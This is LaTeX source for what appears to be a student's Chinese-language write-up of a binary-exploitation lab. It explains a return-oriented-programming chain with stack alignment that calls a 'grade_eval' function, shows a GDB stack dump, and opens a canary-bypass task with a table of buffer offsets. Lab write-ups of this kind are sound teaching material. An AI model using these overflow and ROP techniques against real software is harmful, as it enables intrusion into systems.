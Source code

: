 \documentclass[UTF8,11pt,fontset=fandol]{ctexart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\begin{lstlisting}
0x401a33 <__libc_csu_init+99>:   pop %rdi
0x401a34 <__libc_csu_init+100>:  ret
\end{lstlisting}

这种从指令中间切进去的 gadget 在 ROP 里很常见，CPU 不管前面的 \code{41}，从 \code{5f} 开始解码就行。

链是：16 字节填充、8 字节保存的 \code{rbp}、\code{0x401a33}、参数 4、\code{0x401a34}、\code{0x401978}。GDB 在 \code{leave} 前 dump 出来的栈是：

\begin{lstlisting}
0x7fffffffeb10:  0x4141414141414141  0x4141414141414141
0x7fffffffeb20:  0x4141414141414141  0x0000000000401a33
0x7fffffffeb30:  0x0000000000000004  0x0000000000401a34
0x7fffffffeb40:  0x0000000000401978
\end{lstlisting}

中间多放一个 \code{0x401a34} 是为了栈对齐。\code{ret} 进入 \code{grade\_eval} 时，\code{rsp} 应该等于正常 \code{call} 之后的值，也就是 \code{\%16=8}。如果链是 \code{pop rdi; ret -> 4 -> grade\_eval}，进入 \code{grade\_eval} 时 \code{rsp\%16=0}，\code{push \%rbp} 之后更不正；有些 glibc 的 \code{printf} 会因为 \code{movaps} 要求 16 字节对齐而崩。我一开始没加这个 \code{ret}，本机也能跑通，但加上以后和编译器生成的调用完全一致，换环境更稳。

在 \code{0x401978} 断下时 \code{rdi=4}，输出同样包含 \code{Hope A will be your grade!}。\code{grade\_eval} 返回后跳到链外的栈数据并崩溃，但输出已经刷新。

\section{任务四：绕过 Canary}

\code{dark-log} 的 \code{input} 里，\code{expression} 在 \code{rbp-0x120}，\code{logMsg} 在 \code{rbp-0xa0}，\code{len} 在 \code{rbp-0x20}，canary 在 \code{rbp-0x8}。以 \code{expression} 首字节为 0，各字段偏移是：

\begin{center}
\begin{tabular}{@{}lll@{}}
\toprule
字段 & 相对 \code{rbp} & 相对 \code{expression}\\
\midrule
\code{expression[128]} & \code{rbp-0x120} & 0--127\\
\code{logMsg[128]} & \code{rbp-0xa0} & 128--255\\
\code{int len} & \code{rbp-0x20} & 256--259\\
\code{pad[8]} & \code{rbp-0x1c}--\code{rbp-0x15} & 260--267\\
canary & \code{rbp-0x8} & 280--287\\
保存的 \code{rbp} & \code{rbp} & 288--295\\
返回地址 & \code{rbp+8} & 296--303\\
\bottomrule
\end{tabular}
\end{center}
\end{document}
